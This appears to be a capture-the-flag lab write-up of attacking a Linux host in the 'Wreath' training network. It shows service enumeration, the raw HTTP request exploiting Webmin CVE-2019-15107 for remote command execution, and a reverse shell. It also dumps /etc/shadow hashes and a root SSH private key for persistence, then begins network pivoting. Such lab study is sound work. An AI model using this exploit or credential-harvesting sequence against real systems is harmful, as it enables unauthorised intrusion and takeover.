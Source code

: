 ```yaml
---
cover: >-
  https://images.unsplash.com/photo-1541728472741-03e45a58cf88?crop=entropy&cs=srgb&fm=jpg&ixid=MnwxOTcwMjR8MHwxfHNlYXJjaHw5fHxoYWNrZXJ8ZW58MHx8fHwxNjQ0OTUxOTI2&ixlib=rb-1.2.1&q=85
coverY: 421.77650429799417
---
```


# 🔰 10.200.81.200 | Linux

## <mark style="color:purple;background-color:green;">\_\_Enumeration\_\_</mark>

<details>

<summary><mark style="color:purple;">NMAP</mark></summary>

```
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 9c:1b:d4:b4:05:4d:88:99:ce:09:1f:c1:15:6a:d4:7e (RSA)
|   256 93:55:b4:d9:8b:70:ae:8e:95:0d:c2:b6:d2:03:89:a4 (ECDSA)
|_  256 f0:61:5a:55:34:9b:b7:b8:3a:46:ca:7d:9f:dc:fa:12 (ED25519)
80/tcp    open   http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_http-title: Did not follow redirect to https://thomaswreath.thm
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
443/tcp   open   ssl/http   Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_http-title: Thomas Wreath | Developer
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=thomaswreath.thm/organizationName=Thomas Wreath Development/stateOrProvinceName=East Riding Yorkshire/countryName=GB
| Not valid before: 2022-02-15T11:52:37
|_Not valid after:  2023-02-15T11:52:37
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
|_ssl-date: TLS randomness does not represent time
9090/tcp  closed zeus-admin
10000/tcp open   http       MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.890
```

Known CVE - `MiniServ 1.890 (Webmin httpd)`\
``![](<../../.gitbook/assets/image (13) (1) (1) (1) (1) (1).png>)``

</details>

<details>

<summary><mark style="color:green;">Web Services</mark></summary>

**Technologies**

![](<../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png>)

**Dirsearch | Gobuster**

```yaml
Target: https://thomaswreath.thm/
[14:40:10] 403 -  217B  - /cgi-bin/            
[14:40:18] 301 -  237B  - /css  ->  https://thomaswreath.thm/css/
[14:40:27] 301 -  239B  - /fonts  ->  https://thomaswreath.thm/fonts/
[14:40:32] 301 -  237B  - /img  ->  https://thomaswreath.thm/img/
[14:40:33] 200 -   15KB - /index.html                                       
[14:40:36] 200 -    1KB - /js/


```

#### Page Screenshots

![](<../../.gitbook/assets/image (2) (1).png>)![](<../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png>)

</details>

#### :notebook\_with\_decorative\_cover: <mark style="color:blue;">Other Services</mark>

**OSINT** --> \
Phone Number: `01347 822945` \
Mobile Number: `+447821548812` \
Email: `me@thomaswreath.thm`

## <mark style="color:red;background-color:yellow;">\_\_Exploitation\_\_</mark>

## _<mark style="color:orange;">FOOTHOLD</mark>_

### **CVE-2019-15107 Webmin RCE v1.890 (Unauthenticated)**

**Manual exploit**\
****POC used --> [https://github.com/ruthvikvegunta/CVE-2019-15107](https://github.com/ruthvikvegunta/CVE-2019-15107)****\
****Response: \
![](<../../.gitbook/assets/image (11) (1) (1) (1) (1).png>)\
Request:&#x20;

```yaml
POST /password_change.cgi HTTP/1.1
Host: thomaswreath.thm:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: http://thomaswreath.thm:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 17



expired=id

```

{% hint style="info" %}
Use `curl` for faster responses!
{% endhint %}

Can successfully ping my machine and execute most of the commands.\
![](<../../.gitbook/assets/image (3) (1) (1) (1).png>)![](<../../.gitbook/assets/image (1) (1).png>)

### Getting reverse shell

Use this to get a pseudoshell - [https://github.com/MuirlandOracle/CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107)\
then convert to a TTY shell\
![](<../../.gitbook/assets/image (4) (1).png>)![](<../../.gitbook/assets/image (10) (1) (1) (1) (1).png>)\
Stabilize shell to get auto-complete and more\
![](<../../.gitbook/assets/image (5) (1) (1) (1).png>)

### Enumerating the machine for lateral movement

* `/etc/shadow` and `/etc/passwd` _<mark style="color:red;"></mark>_&#x20;

```
root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:99999:7:::
twreath:$6$0my5n311RD7EiK3J$zVFV3WAPCm/dBxzz0a7uDwbQenLohKiunjlDonkqx1huhjmFYZe0RmCPsHmW3OnWYwf8RWPdXAdbtYpkJCReg.::0:99999:7:::

twreath:x:1000:1000:Thomas Wreath:/home/twreath:/bin/bash
unbound:x:991:987:Unbound DNS resolver:/etc/unbound:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
nginx:x:990:986:Nginx web server:/var/lib/nginx:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
```

* Found **mysql** data at `/var/lib/mysql/mysql`
* Found ssh key at `/root/.ssh/id_rsa` --> **ESTABLISH PERSISTENCE**

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

## _<mark style="color:red;">PIVOTING</mark>_

* Identify any local DNS servers which maybe misconfigured to allow DNS zone transfer attack: `arp -a` and `/etc/resolv.conf`

```bash
ip-10-200-81-1.eu-west-1.compute.internal (10.200.81.1)

search eu-west-1.compute.internal
nameserver 10.200.0.2
```

* Performing a ping sweep of the network using nmap\
  ![](<../../.gitbook/assets/image (9) (1) (1) (1) (1).png>)
* Port scan every active host (except `.1, .250, .255`)\
  ![](<../../.gitbook/assets/image (3) (1) (1).png>)

{% hint style="info" %}
Rest of the hosts in their individual pages.
{% endhint %}
